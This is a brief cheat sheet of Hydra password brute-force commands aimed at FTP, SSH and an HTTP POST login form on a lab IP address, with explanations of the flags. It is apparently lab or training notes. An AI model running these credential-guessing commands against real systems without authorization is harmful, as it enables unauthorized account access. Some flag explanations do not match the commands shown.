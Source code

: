 # Hydra

#### FTP[​](broken-reference) <a href="#ftp" id="ftp"></a>

```
hydra -l user -P passlist.txt ftp://10.10.231.82
```

#### SSH[​](broken-reference) <a href="#ssh" id="ssh"></a>

```
hydra -l <username> -P <full path to pass> 10.10.231.82 -t 4 ssh
```

* `-l` is for the username
* `-P` Use a list of passwords
* `-t` specifies the number of threads to use

#### Post Web Form[​](broken-reference) <a href="#post-web-form" id="post-web-form"></a>

```
hydra -l <username> -P <wordlist> 10.10.231.82 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V
```

* `-l` Single username
* `-P` indicates use the following passworrd list
* `http-post-form` indicates the type of form (post)
* `/login url` the login page URL
* `:username` the form field where the username is entered
* `^USER^` tells Hydra to use the username
* `password` the form field where the password is entered
* `^PASS^` tells Hydra to use the password list supplied earlier
* `Login` indicates to Hydra the Login failed message
* `Login Failed` is the login failure message that the form returns
* `F=incorrect` if this word appears on the page, its incorrect. It could be also something like this "Your username or password is incorrect."
* `-V` verbose output for every attempt
